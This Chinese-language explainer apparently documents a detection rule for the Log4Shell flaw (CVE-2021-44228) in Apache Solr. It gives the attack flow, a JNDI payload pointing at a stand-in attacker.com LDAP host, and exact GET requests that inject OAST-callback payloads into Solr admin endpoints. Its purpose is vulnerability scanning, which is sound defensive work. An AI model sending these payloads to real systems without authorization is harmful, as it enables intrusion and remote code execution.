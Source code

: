 # Apache Solr 7+ - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

Apache Log4j2 是广泛使用的 Java 日志组件。2021 年披露的 CVE-2021-44228（Log4Shell）漏洞，允许攻击者通过 JNDI 注入远程加载恶意代码，进而实现远程代码执行（RCE）。Apache Solr 7 及以上版本集成了受影响的 Log4j2 版本，因此也受到该漏洞影响。

## 2. 影响范围

- Apache Solr 7 及以上版本，使用 Log4j2 <= 2.14.1
- 只要日志记录、配置或参数中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时，支持 JNDI（Java Naming and Directory Interface）查找功能。攻击者可以通过构造特殊的日志内容，诱使 Log4j2 访问恶意的 JNDI 服务器（如 LDAP），从而加载并执行远程代码。

在 Solr 中，部分管理接口参数会被记录到日志，攻击者可通过 HTTP 请求注入恶意 JNDI payload。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意 LDAP 服务器，返回恶意 Java 类。
2. 构造包含 JNDI payload 的 HTTP 请求（如：`$\{jndi:ldap://attacker.com/a\}`），发送到 Solr 管理接口。
3. Solr 日志记录参数时，Log4j2 解析 payload，触发 JNDI 查找，访问攻击者的 LDAP 服务器。
4. 恶意 Java 类被加载并执行，实现远程命令执行。

## 5. 探测原理与流程（yaml 规则详细说明）

该 yaml 探测规则利用了 DNSLog/OAST 平台（如 Interactsh）进行无害化探测，具体流程如下：

### 5.1 探测请求的构造

- 工具会向目标 Solr 实例的管理接口发送如下格式的 HTTP GET 请求：

  ```
  GET /solr/admin/{endpoint}?action=${jndi:ldap://${:-<rand1>}${:-<rand2>}.${hostName}.uri.<interactsh-url>/} HTTP/1.1
  Host: <目标主机>
  ```
  - `{endpoint}` 取值为 `collections` 和 `cores`，分别测试两个接口。
  - `action` 参数中注入了 JNDI payload，payload 中包含随机数（<rand1>、<rand2>）、主机名和 OAST 平台生成的唯一域名（如 Interactsh）。
  - 该 payload 设计为一旦被 Log4j2 解析，将触发对 OAST 域名的 DNS 查询。

- **示例请求**：
  ```
  GET /solr/admin/collections?action=${jndi:ldap://${:-123}${:-456}.targethost.uri.abcde1234.interactsh.com/} HTTP/1.1
  Host: vulnerable.solr.com
  ```

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应体需包含 `org.apache.solr` 字样，确认目标为 Solr 服务。
  - 其他内容通常为接口返回的管理信息。
- **OAST平台交互**：
  - 如果目标存在漏洞，Log4j2 解析 payload 时会向 OAST 域名发起 DNS 查询。
  - OAST 平台（如 Interactsh）会记录下该 DNS 查询，并可回传给检测工具。

### 5.3 多请求与判定逻辑

- 工具会对 `/solr/admin/collections` 和 `/solr/admin/cores` 两个接口分别发送带有不同随机数的 payload。
- 每个请求的 payload 都包含唯一的随机标识，便于后续关联。
- 检测工具会在 OAST 平台上查询是否有对应的 DNS 请求记录。
- 只有当：
  1. HTTP 响应体中包含 `org.apache.solr`，
  2. OAST 平台收到带有对应随机标识的 DNS 查询，
  3. DNS 查询的格式与 payload 匹配，
  才判定目标存在 Log4j JNDI RCE 漏洞。

- **判定流程伪代码**：
  ```pseudo
  for endpoint in [collections, cores]:
      rand1, rand2 = 随机生成
      payload = f'${{jndi:ldap://${{:-{rand1}}}${{:-{rand2}}}.{hostName}.uri.<oast-domain>/}}'
      发送 GET /solr/admin/{endpoint}?action={payload}
      记录 rand1, rand2, endpoint
      
  等待 OAST 平台回调
  for 每条 OAST DNS 记录:
      如果 DNS 查询中包含 rand1, rand2, hostName, endpoint:
          且对应 HTTP 响应体含 org.apache.solr:
              判定目标存在漏洞
  ```

- **关联判定的意义**：
  - 通过唯一的随机标识，将每个 HTTP 请求与 OAST 平台的 DNS 查询一一对应，避免误报。
  - 只有当请求与 DNS 查询都能关联上，且目标确实为 Solr，才判定为漏洞。
  - 这种方式无需真正执行恶意代码，安全且高效。

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的GET请求到/solr/admin/collections/cores] --> B{响应体含org.apache.solr?}
      B -- 否 --> F[非Solr目标, 终止]
      B -- 是 --> C[等待OAST平台DNS回显]
      C --> D{DNS查询中含随机标识?}
      D -- 否 --> F
      D -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [Apache Solr 官方安全公告](https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Vulhub Log4j 漏洞环境](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

本规则通过 OAST/DNSLog 探测方式，安全、高效地检测 Apache Solr 是否存在 Log4j JNDI RCE 漏洞，无需实际利用，适合批量自动化安全检测。 